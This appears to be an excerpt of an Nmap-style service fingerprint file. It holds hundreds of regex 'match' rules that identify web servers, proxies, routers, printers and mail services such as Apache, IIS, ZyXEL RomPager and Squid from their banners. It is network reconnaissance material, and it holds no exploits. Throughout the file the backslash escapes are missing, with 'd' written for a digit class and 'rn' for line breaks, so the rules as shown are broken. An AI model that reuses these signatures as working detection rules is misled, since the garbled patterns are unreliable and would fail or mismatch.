# Lispweb 2.0 Allegro Common Lisp.
match http m|^HTTP/1.0 ddd .*nMime-Version: .*nServer: LispWeb (d[-.w]+) (acl)n| v/Lispweb httpd/$1//
# World Client for MDaemon (www.altn.com) on Windows 2000
match http m|^HTTP/1.0 ddd .*rnServer: WDaemon/(d[-.w]+)rn| v/Alt-N MDaemon World Client webmail/$1//
# pop3proxy web interface from spambayes 1.0a5 on Linux
match http m|^HTTP/1.1 ddd .*rnConnection: closernContent-Type: text/htmlrnDate: .*rnrn<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">rn<html>rn<head>rn<title id="title">Home</title>rn<meta content="no-cache" http-equiv="Pragma"/>rn<meta content="no-cache" http-equiv="Cache"/>rn| v/Spambayes pop3proxy web interface///
match http m|^HTTP/1.[01] ddd .*rnServer: Zope/(Zope (d[-.w]+) (([^)]+)), ([^r]+)rn|s v/Zope application server/$1/$2; $3/
# Oracle XML Database - SuSe Linux 8.1 Personal, Linux 2.4.19, Oracle9i Database
match http m|^HTTP/1.1 ddd .*rnServer: Oracle XML DB/(Oracle[w]+ Enterprise Edition Release) (d[-.w]+) |s v/Oracle XML DB webserver/$2/$1/
match http m|^HTTP/1.1 ddd .*rnDate: .*rnServer: Oracle9iAS ((d[-.w]+)) Containers for J2EErn| v/Oracle 9iAS J2EE webserver/$1//
match http m|^HTTP/1.1 ddd .*rnDate: .*rnAllow: .*rnServer: Oracle9iAS-Web-Cache/(d[-.w]+)rn| v/Oracle 9iAS Web Cache/$1//
# ntop 2.1.56
match http m|^HTTP/1.0 ddd .*nServer: ntop/(d[-.w]+) (([-.w]+))n|s v/Ntop web interface/$1/platform: $2/
match http m|^HTTP/1.0 ddd .*nServer: ntop/(d[-.w]+) ([^)r]+)rn|s v/Ntop web interface/$1//
# Ntop 2.1.3
match http m|HTTP/1.0 ddd .*nDate: .*nCache-Control: .*nConnection: .*nServer: ntop/(d[-.w]+) ([-.w ]+) (([-.w]+))n| v/Ntop web interface/$1/$2; platform: $3/
match http m|^HTTP/1.1 ddd .*rnServer: Apt-proxy (d[-.w]+)rn|s v/Debian Apt-proxy/$1//
match http m|^HTTP/1.0 404 NON-EXISTENT BACKENDrnrn$| v/Debian Apt-proxy//Broken: no backend/
match http m|^HTTP/1.0 ddd .*rnServer: mini_httpd/(d[-.w]+) | v/Mini_httpd/$1//
# HP ProCurve Switch 2650 / Firmware revision H.07.32
match http m|^HTTP/1.1 401 UnauthorizedrnServer: eHTTP v(d[-.w]+)rnConnection: closernWWW-Authenticate: Basic realm="HP ([-.w]+)"rnrn| v/HP webadmin//HP $2; embedded eHTTP $1/
match http m|^HTTP/1.0 200 OKrnServer: eHTTP v(d[-.w]+)rnConnection: closernContent-Type: text/htmlrnContent-Length: d+rnrn<html> n<head>n    <title> n    HP ProCurve Switch (d[-.w]+) n| v/HP ProCurve Switch webadmin//ProCurve $2; embedded eHTTP $1/
match http m|^HTTP/1.1 ddd .*rnServer: Sun-ONE-Application-Server/(d[-.w]+)rn| v/SunONE Application Server/$1//
match http m|^HTTP/1.1 ddd .*rnServer: SunONE WebServer (d[-.w]+)rn| v/SunONE WebServer/$1//
match http m|^HTTP/1.1 ddd .*rnDate: .*rnServer: IBM_HTTP_Server/(d[-.w]+) +(Apache/)?(d[-.w]+) (([^rn]+))rn|i v/IBM HTTP Server/$1/Derived from Apache $3; $4/
match http m|^HTTP/1.1 ddd .*rnDate: .*rnServer: IBM_HTTP_Server/(d[-.w]+) +(Apache/)?(d[-.w]+)rn|i v/IBM HTTP Server/$1/Derived from Apache $3/
# D-Link DWL-1000AP webadmin
match http m|^HTTP/1.0 200 OKrnServer: PSIWBL/(d[-.w]+)rnDate: .*Title: wwwrnrn<HTML>n <HEAD>n   <meta http-equiv="Refresh" content="0; url=/startup/startup.shtml">n </HEAD>n <BODY>n </BODY>n</HTML>$|s v/D-Link web admin server//Embedded webserver: PSIWBL $1/
# D-Link DWL-900AP+ WAP
match http m|^HTTP/1.0 401 UnauthorizedrnServer: Embedded HTTP Server (d[-.w]+) *rnWWW-Authenticate: Basic realm="DWL-([-+.w]+)"rn| v/D-Link web admin server//Embedded HTTP Server $1; D-Link DWL-$2/
# D-Link DWL-1000AP Wireless Access Point
match http m|^HTTP/1.0 ddd .*rnServer: PSIWBL/(d[-.w]+)rnDate: .*rnWWW-Authenticate: Basic realm="Enter Password (Leave User Name Empty)"rn| v/D-Link web admin server//Embedded webserver: PSIWBL $1/
match http m|^HTTP/1.0 ddd .*rnDate: .*rnServer: WhatsUp_Gold/(d[-.w]+)rn| v/IPswitch Whats Up Gold/$1//
match http m|^HTTP/1.1 401 UnauthorizedrnWWW-Authenticate: Basic realm="(MR[-.w]+)"rnContent-Type: text/htmlrnServer: ZyXEL-RomPager/(d[-.w]+)rnrn| v|NetGear webadmin||NetGear $1 WAP/Router; Embedded webserver: ZyXEL-RomPager $2|
match http m|^HTTP/1.1 401 UnauthorizedrnWWW-Authenticate: Basic realm="(RP[-.w]+)"rnContent-Type: text/htmlrnServer: ZyXEL-RomPager/(d[-.w]+)rnrn| v|NetGear webadmin||NetGear $1 router; Embedded webserver: ZyXEL-RomPager $2|
# Netgear MR814 wireless router remote administration, Firmware 4.13 Aug 20 2003
match http m|^HTTP/1.0 401 UnauthorizedrnWWW-Authenticate: Basic realm="(MR[-.+w]+)"rnServer: Embedded HTTPD v(d[-.w]+), (.*)rn| v/NetGear MR-series WAP//$1; Embedded HTTPD $2, $3/
match http m|^HTTP/1.1 401 UnauthorizedrnWWW-Authenticate: Basic realm="Prestige ([-.w ]+)"rnContent-Type: text/htmlrnServer: ZyXEL-RomPager/(d[-.w ]+)rnrn| v|ZyXEL Prestige webadmin|$2|Prestige model $1|
match http m|^HTTP/1.1 401 UnauthorizedrnWWW-Authenticate: Basic realm="Prestige ([-.w ]+)"rnContent-Type: text/htmlrnServer: RomPager/(d[-.w ]+) ([-./w]+)rnrn| v|ZyXEL Prestige webadmin|$2|Prestige model $1; $3|
match http m|^HTTP/1.0 ddd .*rnServer: Roxen/(d[-.w]+)rn|s v/Roxen webserver/$1//
# A-link (Avaks) Hasbani Web Server on RoadRunner 44b ADSL Router
match http m|^HTTP/1.1 403 ForbiddenrnServer: WindWeb/(d[-.w]+)rnConnection: closernWWW-Authenticate: Basic realm="Home Gateway"rnContent-Type: text/htmlrnrnHasbani Web Server| v/A-link Hasbani webadmin//Runs WindWeb $1 embedded httpd; Often a DSL router/
# Sambar Server V5.3 on Windows NT
match http m|^HTTP/1.1 ddd .*rnDate: .*rnServer: SAMBARrn| v/Sambar webserver///
match http m|^HTTP/1.1 .*rnDate: .*rnServer: aEGiS_nanoweb/(d[-.w]+) (([^)]+))rn| v/AEGiS Nanoweb httpd/$1/$2/
match http m|^HTTP/1.1 404 Not FoundrnDate: .*rnServer: Unknown/0.0 UPnP/1.0 Virata-EmWeb/([-.w]+)rn| v/ReplayTV web interface//runs Virata-EmWeb $1/
match http m|^HTTP/1.0 ddd .*rnServer: WebLogic WebLogic Server (d[-.w]+( SPd+)?) +www|s v/WebLogic applications server/$1//
# Samba 3.0.0rc4-Debian
match http m|^HTTP/1.0 401 Authorization RequiredrnWWW-Authenticate: Basic realm="SWAT"rn| v/Samba SWAT administration server///
match http m|^HTTP/1.0 200 OKrnConnection: closernDate: .*rnExpires: .*rnContent-type: text/htmlrnrn<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2//EN">n<HTML>n<HEAD>n<TITLE>Samba Web Administration Tool</TITLE>| v/Samba SWAT administration server///
match http m|^HTTP/1.0 ddd .*rnServer: icecast/(d[-.w]+)rn| v/Icecast streaming media server/$1//
match http m|^HTTP/1.0 200 OKrnServer: HP-Web-Server-(d[-.w]+)rn.*<!-- framework.ini ([A-Z]:\[-.w \]+)-->|s v/HP Web Jetwebadmin/$1/framework.ini: $2/
match http m|^HTTP/1.1 ddd .*rnDate: .*rnServer: HP Web Jetadmin/(d[-.w]+) (.*)rn| v/HP Web Jetadmin print server/$1/$2/
match http m|^HTTP/1.1 ddd .*rnServer: HP-Web-JetAdmin-(d[-.w]+)rn| v/HP Web Jetadmin print server/$1//
match http m|^HTTP/1.0 ddd .*rnServer: Tomcat Web Server/(d[-.w ]+) ( ([^)]+) )rn|s v/Apache Tomcat webserver/$1/$2/
match http m|^HTTP/1.0 ddd .*rnServer: Tomcat Web Server/(d[-.w ]+)rnrn|s v/Apache Tomcat webserver/$1//
match http m|^HTTP/1.0 ddd .*rnServlet-Engine: Tomcat Web Server/(d[-.w]+) (([^)]+))rn|s v/Apache Tomcat webserver/$1/$2/
match 3dm-http m|^HTTP/1.0 200 OKrnServer: 3ware/(d[-.w]+)rn.*<title>3ware 3DM - No remote access</title>|s v/3Ware 3DM Raid Daemon/$1/Access denied/
match http m|^HTTP/1.0 ddd .*rnServer: publicfile| v/publicfile httpd///
match http m|^HTTP/1.[01].*Server: Apache/(d+.d+.[-.w]+) ([^rn]+)|s v/Apache httpd/$1/$2/
match http m|^HTTP/1.1 ddd .*rnServer: Apache/(d[-.w]+)rn.*X-Powered-By: ([^rn]+)rn|s v/Apache httpd/$1/$2/
match http m|^HTTP/1.1 ddd .*rnServer: Apache/(d[-.w]+)rn|s v/Apache httpd/$1//
# apache 1.3.26-0woody3 or Apache 2.0.45
match http m|^HTTP/1.[01] ddd.*rnDate: .*rnServer: Apachern| v/Apache httpd///
match http m|^HTTP/1.[01] ddd.*rnDate: .*rnServer: Apache +(([^rn)]+))rn| v/Apache httpd//$1/
match http m|^HTTP/1.1 ddd .*rnDate: .*rnServer: IBM_HTTP_Server/(d[-.w]+) (Apache/.*)rn| v/IBM HTTP Server/$1/Based on $2/
match http m|^HTTP/1.1 ddd .*rnDate: .*rnServer: Apache-AdvancedExtranetServer/(d[-.w]+) (Mandrake Linux/[-.w]+) (.*)rn| v/Apache Advanced Extranet Server httpd/$1/Mandrake Linux; $2/
match http m|^HTTP/1.1 ddd .*rnDate: .*rnServer: Apache-AdvancedExtranetServer/(d[-.w]+) (Mandrake Linux/[-.w]+)rn| v/Apache Advanced Extranet Server httpd/$1/Mandrake Linux/
match http m|^HTTP/1.1 ddd .*rnDate: .*rnServer: Apache-AdvancedExtranetServer/(d[-.w]+) (Linux-Mandrake/[-.w]+)rn| v/Apache Advanced Extranet Server httpd/$1/Mandrake Linux/
match http m|^HTTP/1.1 ddd .*rnDate: .*rnServer: Apache-AdvancedExtranetServer/(d[-.w]+)rn| v/Apache Advanced Extranet Server httpd/$1/Mandrake Linux/
match http m|^HTTP/1.[10] ddd.*rnDate:.*rnServer: Stronghold/([-.w]+) Apache/([-.w]+)| v/Apache Stronghold httpd/$1/based on Apache $2/
match http m|^HTTP/1.1 ddd .*rnServer: Apache Tomcat/(d[-.w]+)|s v/Apache Tomcat/$1//
match http m|^HTTP/1.1 ddd.*rnServer: Apache[- ]Coyote/(d[-d.]+)rn|s v|Apache Tomcat/Coyote JSP engine|$1||
match http m|^HTTP/1.1.*rnServer: Netscape-Enterprise/([-.w]+)rn| v/Netscape Enterprise httpd/$1//
# Citrix NFuse 2.0 on MS IIS 5.0
match http m|^HTTP/1.[01].*rnServer: Microsoft-IIS/([-.w]+)rn.*rnContent-Location: http://[^/]+/nfuse.htmrn.*rn---- NFuse ([-.w]+) (Build |s v/Citrix NFuse/$2/Microsoft IIS $1/
match http m|^HTTP/1.[01].*rnServer: Microsoft-IIS/([-.w]+)rn|s v/Microsoft IIS webserver/$1//
match http m|^HTTP/1.0 200 OKrnDate: .+rnServer: Tomcat/([-.w]+)rnContent-Type: text/htmlrnContent-Length: d+rnServlet-Engine: Tomcat/[-.w]+ (Java ([-.w]+); SunOS ([-.w]+) (w+); java.vendor=Sun Microsystems Inc.)rn| v/Solaris management console server//SunOS $3 $4; Java $2; Tomcat $1/
match http m|^HTTP/1.1 200 OKrn.+Server: CommuniGatePro/([-.w]+)rn|s v/CommuniGate Pro httpd/$1//
match http m|^HTTP/1.0 ddd .*rnDate: .*rnServer: DSS ([-.w]+) Admin Server/([-.w]+)| v/DarwinStreamingServer/$1/Admin Server $2/
match http m|^HTTP/1.0 ddd .*rnDate: .*rnServer: QTSS (d[-.w]+) Admin Server/(d[-.w]+)rn| v/Apple QTSS Admin Server/$2/from QTSS $2/
match http m|^HTTP/1.0 200 OKrnServer: fnord/(d[-.w]+)rn| v/Fnord httpd/$1//
match http m|^HTTP/1.0 404 Not FoundrnContent-Type: text/htmlrnConnection: closernrn<title>Not Found</title>This host is not served here.$| v/Fnord httpd///
match http m|^HTTP/1.0 ddd .*rnServer: MiniServ/0.01rn|s v/Webmin httpd///
match http m|^HTTP/1.1 200 OKrnServer: NetWare-Enterprise-Web-Server/([-.w]+)rn| v/Novell Netware enterprise web server/$1//
match http m|^HTTP/1.1 302 Object Moved TemporarilyrnServer: NetWare HTTP Stackrn| v/Novell Netware HTTP Stack//HTTPSTK.NLM/
match http m|^HTTP/1.0 ddd .*rnServer: HTTPd-WASD/([-.w]+) OpenVMS/VAXrn| v|HTTPd-WASD|$1|on OpenVMS/VAX)|
match http m|^HTTP/1.1 ddd .*rnServer: Lotus-Domino/Release-(d[-.w]+)rn| v/Lotus Domino httpd/$1//
match http m|^HTTP/1.1 ddd .*rnServer: Lotus-Domino/(d[-.w]+)rn| v/Lotus Domino httpd/$1//
match http m|^HTTP/1.1 ddd .*rnServer: Lotus-Domino(/0)?rn| v/Lotus Domino httpd///
# G-Net BB0060 ADSL Modem (I'm not sure this is GlobespanVirata, but that is
# what the telnetd on this device said).
match http m|^HTTP/1.1 302 Document FollowsrnLocation: /hag/pages/home.ssirnrn$| v/GlobespanVirata httpd//on broadband router/
match http m|^HTTP/1.0 200 OKrnServer:HTTP/1.0rn.*<title>Hewlett Packard</title>|s v/HP Jetdirect httpd///
match http m|^HTTP/1.0 401 UnauthorizedrnServer: EHTTP/([.d]+)rnWWW-Authenticate: Basic realm="HP ([-.w]+)"rn| v/HP printer EHTTP admin server/$1/HP $2 printer/
match http m|^HTTP/1.1 ddd .*rnServer: Virata-EmWeb/([-.w]+)rn.*rnrnn<!--nFile name: index.htmlnnThis is the 'parent' file that calls the individual child frames. nThis is the file that is first accessed when the user types http://<ipaddress> nin the browser toolbar. nnThe UI Architecture consists of a total of 4 frames. This file calls 3 high-level |s v/HP LaserJet printer webadmin//Virata-EmWeb embedded server $1/
match http m|^HTTP/1.0 d{3}.*rnServer: CompaqHTTPServer/([.w]+)rn|s v/Compaq Insight Manager/$1//
match http m|^HTTP/1.1 401 Authorization RequiredrnWWW-Authenticate: Basic realm="Linksys ([-.A-Zd/ ]+)"rn| v/Linksys router web admin server//device model $1/
match http m|^HTTP/1.1 ddd .*rnServer: Insight Manager (d)rnrn|s v/Compaq Insite Manager/$1//
match http m|^HTTP/1.1 200 OKrnContent-Length: d+rnConnection: closernPragma: no-cachernCache-Control: no-cache, no-store, must-revalidaternExpires: 0rnContent-Type: text/htmlrnrn| v/GNU Httptunnel///
# Blue Coat Port 80 Security Appliance Model: Blue Coat SG400 Software Version: SGOS 2.1.6044 Software Release id: 19480 Service Pack 4
match http m|^HTTP/1.0 301 Moved PermanentlyrnLocation: /Secure/Local/console/index.htmrnrn$| v/Blue Coat Security Appliance HTTP admin interface///
match http m|^HTTP/1.0 400 Bad RequestrnServer: AkamaiGHostrn| v|AkamaiGHost||Akamai's HTTP Acceleration/Mirror service|
match http m|^HTTP/1.0 ddd .*rnServer: Netscape-Enterprise/([-.w]+)rn| v/Netscape Enterprise webserver/$1//
match http m|^HTTP/1.1 ddd .*rnServer: Netscape-Enterprise/([-. w]+)rn| v/Netscape Enterprise webserver/$1//
match http m|^HTTP/1.0 ddd .*nDate: .*nServer: NCSA/(1.d)n| v/NCSA httpd/$1//
match http m|^HTTP/1.0 ddd .*rnServer: Netscape-FastTrack/(d[-.w]+)rn| v/Netscape FastTrack web server/$1//
match http m|^HTTP/1.1 ddd .*rnServer: (Oracle[-.w/]+) Oracle HTTP Server ([-.w]+)|s v/Oracle HTTP Server/$1/$2/
match http m|^HTTP/1.1 ddd .*rnServer: Oracle HTTP Server Powered by Apachern|s v/Oracle HTTP Server Powered by Apache///
match http m|^HTTP/1.1 ddd .*rnServer: Oracle HTTP Server Powered by Apache/([-.w]+)rn|s v/Oracle HTTP Server Powered by Apache/$1//
match http m|^HTTP/1.0 401 UnauthorizedrnServer: Embedded HTTP Server (d[.d]+)rnWWW-Authenticate: Basic realm="([-+.w]+)"rnConnection:| v/D-Link Embedded HTTP Server/$1/on D-Link $2/
# iCal 3.6
match http m|^HTTP/1.1 200 OKrnDate: .*rnMIME-Version: 1.0rnServer: Wapapi/1.1rnContent-Type: text/htmlrnContent-Length: d+rnrn<html>rn<head><title>iCal Tutorial:  Introduction</title></head>| v/Brown Bear iCal web calendar///
match http m|^HTTP/1.1 401 UnauthorizedrnDate: .*rnServer: (Virata-EmWeb/R6_0_1)rnWWW-Authenticate: Basic realm="Administration Tools"rnrn401 Unauthorizedrn$| v/Netscreen administrative web server//runs $1/
# Phaser860 Printer
match http m|^HTTP/1.1 404 Not FoundrnDate: .*rnAllow: GET, HEADrnServer: Spyglass_MicroServer/(d[-.w]+)rnContent-Type: text/htmlrnContent-Length: d+rnrn<HTML><HEAD><TITLE>Not Found</TITLE></HEAD>rn<BODY>The requested URL was not found.</BODY></HTML>rn| v/Spyglass MicroServer embedded webserver/$1//
# Cisco Catalyst 3500-XL switch IOS 12.0(5)XU
match http m|^HTTP/1.0 401 UnauthorizedrnDate: .*rnContent-type: text/htmlrnExpires: .*rnWWW-Authenticate: Basic realm="level 15 access"rnrn<HEAD><TITLE>Authorization Required</TITLE></HEAD><BODY><H1>Authorization Required</H1>Browser not authentication-capable or authentication failed.</BODY>rnrn$| v/Cisco IOS administrative webserver///
# Cisco 828 G.SHDSL
match http m|^HTTP/1.0 200 OKrnDate: .*rnServer: cisco-IOS/(d[-.w ]+) HTTP-server/(d[-().w ]+)rn| v/Cisco IOS administrative webserver/$2/IOS $1/
# Xerox Document Centre (DocuCentre) 425
match http m|^HTTP/1.1 200 OKrnContent-Length: d+rnContent-Type: text/htmlrnDate: .*rnAllow: GET, HEADrnServer: Xerox_MicroServer/([-.w]+)rnExpires: .*rnCache-Control: no-cachernrn<HTML>n<HEAD>n<TITLE>([-.+ w]+)</TITLE>| v/Xerox MicroServer httpd/$1/on $2/
match http m|^HTTP/1.1 200 OKrnContent-Length: d+rnContent-Type: text/htmlrnDate: .*rnAllow: GET, HEADrnServer: Xerox_MicroServer/([-.w]+)rn| v|Xerox MicroServer httpd|$1|usually a printer/copier|
match http m|^HTTP/1.1 200 OKrnContent-Type: text/htmlrnDate: .*rnAllow: GET, HEADrnServer: Spyglass_MicroServer/(d[-.w]+)rnLast-Modified: .*rnExpires: .*rnPragma: no-cachernrnn<html> n<head>n   <meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1">n   <meta name="keywords" content="printer; embedded web server; int| v/Spyglass MicroServer/$1/embedded in printer/
match http m|^HTTP/1.0 500 Internal Server ErrorrnServer: Cougar (d[-.w]+)rnrn$| v/Microsoft Windows Media Server/$1//
match http m|^HTTP/1.0 200 OKrnContent-Type: video/x-ms-asfrnCache-Control: max-age=0, no-cachernServer: Cougar/(d[-.w]+)rn| v/Microsoft Windows Media Server/$1//
match http m|^HTTP/1.[01] ddd .*Server: NetApp/(d[-.w]+)rn|s v/NetApp filer httpd/$1//
match http m|^HTTP/1.0 200 OKrnServer: RapidLogic/(d[.d]+)rnMIME-version: 1.0rnContent-type: text/htmlrnrn<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Frameset//EN"rnttt"http://www.w3.org/TR/REC-html40/frameset.dtd">rn<HTML>rn<HEAD>rnt<TITLE>Netopia Router Web </TITLE>| v/Netopia RapidLogic admin server/$1//
match http m|^HTTP/1.1 200 OKrnServer: WebSTAR/(d[-.()w]+) ID/| v/WebSTAR httpd/$1//
match http m|^HTTP/1.1 401 UnauthorizedrnServer: Agranat-EmWeb/R5_2_6rnWWW-Authenticate: Basic realm="accessPoint"rnrn401 Unauthorizedrn$| v/Orinoco AP-200 webadmin//Embedded Agrant-EmWeb R5_2_6/
match http m|^HTTP/1.0 404 NO_STREAM_FOUNDrnConnection: closernrn$| v/Chain Cast P2P streaming service///
match http m|^HTTP/1.0 400 Bad RequestrnServer: Rex/(9.0.0.d+)rn| v|Chain Cast support service|Rex/$1||
match http m|^HTTP/1.0 ddd .*rnDate: .*rnServer: Boa/(d[-.w]+)rn| v/Boa HTTPd/$1//
match http m|^HTTP/1.0 ddd .*rnServer: (d[-.w]+)rn.*<title>GNUMP3d |s v/GNUMP3d streaming server/$1//
match http m|^HTTP/1.1 ddd .*rnDate: .*rnServer: Jetty/(d[-.w]+) (([^)]+))rn| v/Jetty httpd/$1/$2/
# No more HTTP softmatch because many services that I don't think are
# best classified 'http' use http-like semantics (for example UPnP,
# some https servers, etc).  Maybe I should make softmatch allow
# future services that start with the service name, and relable all of
# those.  Shrug.  For now it is gone.
# softmatch http m|^HTTP/1.[01] ddd|
match http m|^HTTP/1.1 ddd .*rnServer: WebSphere Application Server/(.+)rn| v/IBM WebSphere Application Server/$1//
match http m|^HTTP/1.[01] ddd .*rnServer: JRun Web Serverrn| v/JRun Web Server///
match http m|^401 Access deniedrnWWW-Authenticate: Negotiate rnContent-length: 0rnrn| v/Microsoft IIS 5.0 WebDAV//access denied/
match http m|^HTTP/1.[01] ddd .*rnServer: RomPager/([-.w/ ]+)rn|s v/Embedded Allegro RomPager webserver/$1/ZyXEL ZyWALL 2/
match http m|^HTTP/1.1 ddd .*rnServer: IDSL MailGate (d[-.w]+)rn| v/MailGate web proxy/$1//
# While this response looks like a web admin port, I think the same port is used for the primary
# proxy functionality.  This is version 3.0 final on Linux.
match http-proxy m|^HTTP/1.1 401 UnauthorizedrnConnection: closedrnContent-Length: d+rnWWW-Authenticate: Basic realm="WebWasher configuration"rn| v/WebWasher filtering proxy///
# MiddleMan filtering proxy server v1.5.2
# Middleman 1.8.3
match http-proxy m|^HTTP/1.1 404 Not FoundrnContent-Type: text/htmlrnContent-Length: 463rnConnection: closernProxy-Connection: closernrn<html><head><title>File not found</title></head><!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">n<body text="#000000" bgcolor="#99AABB"| v/Middleman filtering web proxy///
match http-proxy m|^HTTP/1.0 ddd .*rnServer: WWWOFFLE/(d[-.w]+)rn| v/WWWOFFLE caching webproxy/$1//
match http-proxy m|^HTTP/1.1 400 Host Not FoundrnContent-type: text/htmlrnConnection: closernrn<html><head><title>The Proxomitron Reveals...</title>| v/Proxomitron universal web filter///
match http-proxy m|^HTTP/1.0 400 Bad RequestrnDate: .*rnrn<html><body>.*<font color="#FF0000">Proxy</font><font color="#0000FF">+</font> (d[-.w]+) (Build #(d+)), Date: |s v/Fortech Proxy+/$1 Build $2//
match http-proxy m|^HTTP/1.0 ddd .*rnServer: Jana-Server/(d[-.w]+)rn| v/JanaServer webproxy/$1//
match http-proxy m|^HTTP/1.0 400 Bad RequestnContent-Type: text/htmlnn<HTML><HEAD><TITLE>DansGuardian - | v/DansGuardian HTTP proxy///
match http-proxy m|^HTTP/1.0 400 Bad RequestrnServer: FreeProxy/(d[-.w]+)rn| v/FreeProxy/$1//
# EZproxy for Linux 2.2d GA (2003-09-01) - http://www.usefulutilities.com
match http-proxy m|HTTP/1.0 ddd .*rnServer: EZproxyrn|s v/EZproxy web proxy///
# http://bfilter.sourceforge.net/
match http-proxy m|^HTTP/1.0 400 Bad Requestrn.*rnrn<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">rn<html>rn<head>rn  <title>BFilter Error</title>|s v/Bfilter webproxy///
match http-proxy m|^HTTP/1.0 ddd .*rnServer: tinyproxy/(d[-.w]+)rn| v/Tinyproxy/$1//
# MS ISA Server 2000 enterprise edition on windows 2000 advanced server
match http-proxy m|^HTTP/1.1 502 Proxy Error ( The Uniform Resource Locator (URL) does not use a recognized protocol. Either the protocol is not supported or the request was not typed correctly. Confirm that a valid protocol is in use (for example, HTTP for a Web request).  )rnVia:1.1| v/Microsoft ISA Server http proxy///
# Privoxy 3.0.0 Filtering Web Proxy - http://www.privoxy.org
match http-proxy m|^HTTP/1.0 400 Invalid header received from browserrnrn$| v|Junkbuster/Privoxy webproxy|||
match http-proxy m|^HTTP/1.0 400 Invalid header received from browsernn| v/Junkbuster webproxy///
match http-proxy m|^HTTP/1.0 ddd .*Server: NetCache (NetApp/(d[-.w]+))rn|s v/NetApp NetCache proxy/$1//
# Squid 2.5.STABLE3 on NetBSD 1.6ZA
match http-proxy m|^HTTP/1.0 ddd .*rnServer: [sS]quid/([-.w]+)rn| v/Squid webproxy/$1//
# Blue Coat Port 80 Security Appliance  Model: Blue Coat SG400 Software Version: SGOS 2.1.6044 Software Release id: 19480 Service Pack 4
match http-proxy m|^HTTP/1.1 504 Gateway Time-outrnConnection: closernCache-Control: no-cachernPragma: no-cachernContent-Length: 2976rnContent-Type: text/htmlrnrn<DIV class=Section1> ntt<P class=MsoNormal| v/Blue Coat Security Appliance http proxy///
match http-proxy m|^HTTP/1.0 200 OKrnServer: MS-MFC-HttpSvr/1.0rnDate: Wed, 13 Aug 2003 01:58:26 GMTrnrn<html><h1>http://| v/Surfcontrol SuperScout Web Filter//Windows/
match http-proxy m|^HTTP/1.0 400 Cache Detected ErrorrnDate: .*rnContent-Type: text/htmlrnVia: 1.0 [-.w]+ (NetCache NetApp/([-.w]+))rnrn| v/NetApp NetCache web proxy/$1//
# gidentd 0.4.5 on Linux 2.4.X
match ident m|^0, 0 : ERROR : INVALID-PORTrn$| v/gidentd///
match ident m|^GET / HTTP/1.0 : USERID : UNIX : ([-.w]+)rn : USERID : UNIX : [-.w]+rn| v/Nullidentd//Claimed user: $1/
match ident m|^GET / HTTP/1.0 : USERID : UNIX : ([-.w]+)rn$| v/Liedentd//Claimed user: $1/
# pidentd 2.81
match ident m|^0 , 0 : ERROR : X-INVALID-REQUESTrn$| v/pidentd///
# pidentd 3.1a25 on Linux 2.4.20 (SuSE 8.2)
match ident m|^GET : ERROR : UNKNOWN-ERRORrn$| v/pidentd///
match ident m|^0, 0 : ERROR : INVALID-AUTH-REQ-INFO : CAPABILITY=USER-INTERACTION : AUTH-MECH=KEBEROS_V4rn$| v/Stanford PC-leland identd///
# fair-identd-20000201
# pidentd-2.8.5-3
match ident m|^0 , 0 : ERROR : UNKNOWN-ERRORrn$| v/pidentd//could be fair-identd/
# identd 1.1 on Linux 2.4.21
# linux-identd 1.2 - http://www.fukt.bth.se/~per/identd
match ident m|^GET / HTTP/1.0 : ERROR : INVALID-PORTrn : ERROR : INVALID-PORTrn$| v/Linux-identd///
# uw-imap 2003debian0.0304182231-1
match imap m|^* OK [CAPABILITY IMAP4REV1 X-NETSCAPE LOGIN-REFERRALS STARTTLS LOGINDISABLED] [[-.w]+] IMAP4rev1 (200[-.w]+) at .*rnGET BAD Command unrecognized/login please: /rn* BAD Null commandrn| v/UW-Imap///
match imap m|^* OK [[-.+w]+] IMAP4rev1 v1(d[-.w]+) server readyrn| v/UW-Imap/1$1//
match imap m|^* OK [-.+w]+ IMAP4rev1 v1(d[-.w]+) server readyrn| v/UW-Imap/1$1//
# gnu/mailutils imap4d 0.3.2 on Linux
match imap m|^* OK IMAP4rev1rnGET BAD  Invalid commandrn* BAD  Null commandrn$| v/GNU Mailutils imapd///
# Cyrus IMAP 2.1.14
match imaps m|^* BYE Fatal error: tls_start_servertls() failedrn$| v/Cyrus imapd///
# Server: CUPS/1.1
match ipp m|^HTTP/1.0.*Server: CUPS/(S+)|s v/CUPS $1///
match ipp m|^lpd [@[-.w]+]: Host name for your address ([:.d]+) is not knownn$| v/CUPS///
match irc m|^:Default-Chat-Community 421 * GET :Unknown commandrn| v/Microsoft Exchange 2000 Server Chat Service///
# Jabber 1.4.2
match jabber m|^<stream:error>Invalid XML</stream:error>$| v/Jabber instant messaging server///
match kazaa-http m|^HTTP/1.0 404 Not Foundr?nX-Kazaa-Username: ([-.+w]+)rnX-Kazaa-Network: ([-.w]+)rn| v/KaZaA P2P client//username: $1; network: $2/
match kazaa-peerpoint m|^HTTP/1.0 404 Not Foundnrn$| v/KaZaA P2P client Peer Point Manager///
match msdtc m|^.....$|s v/Microsoft Distributed Transaction Coordinator///
match msdtc m|^ERRORn$|s v/Microsoft Distributed Transaction Coordinator//error/
# MLDonkey 2.5
match napster m|^1INVALID REQUEST$| v/MLdonkey multi-network P2P client///
match napster m|^1$| v/Lopster Napster P2P client///
match netbios-ssn m/^x83x01x82|x8f$/
match netwareip m|^xfbxffxfexffxfbxffxfexffxfbxffxfexff$| v|Novell Netware/IP|||
match ntop-http m|^HTTP/1.0 401 Unauthorized to access the documentnWWW-Authenticate: Basic realm="ntop HTTP server"n| v/Ntop web interface///
match omninames m|^GIOPx01x01x06$| v/omniORB omniNames//Corba naming service/
# Oracle MTS Recovery Service 9.2.0.1 on Windows 2000 Professional
match oracle-mts m|^HTTP/1.0 200 OKrnContent-length: 7rnrnunknown$| v/Oracle MTS Recovery Service///
match ssl/pop3 m|^-ERR [SYS/PERM] Fatal error: tls_start_servertls() failedrn$| v/Cyrus pop3sd///
# Postgresql-server-7.3.2-3
match postgresql m|^EFATAL:  invalid length of startup packetn$| v/PostgreSQL///
# Netware 6 NetWare/IP
match rendezvous m|^HTTP/1.1 400 Bad RequestrnDate: .*rnDAAP-Server: iTunes/(d[-.w]+) ((.*))rn| v/Apple iTunes/$1/on $2/
